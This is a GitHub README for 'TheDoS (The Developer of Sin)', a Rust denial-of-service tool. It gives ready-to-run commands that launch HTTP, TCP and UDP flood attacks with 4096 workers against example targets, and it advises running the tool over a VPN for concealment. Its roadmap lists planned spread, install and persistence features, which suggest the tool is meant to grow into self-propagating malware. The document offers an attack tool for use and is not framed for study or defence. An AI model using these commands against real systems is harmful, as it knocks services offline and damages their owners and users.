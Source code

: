 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## ☠ TheDoS (The Developer of Sin)

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default workers are 4096

> build using: ```cargo build --release```

* start http attack with 4096 workers: ```./thedos --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```./thedos --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```./thedos --udp-addr 93.184.216.34:24535 --workers 4096```

OR

* start http attack with 4096 workers: ```cargo run -- --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```cargo run -- --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```cargo run -- --udp-addr 93.184.216.34:24535 --workers 4096```

## 🏗️ WIP

* proxy list

* `spread`, `install` and `persistence` methods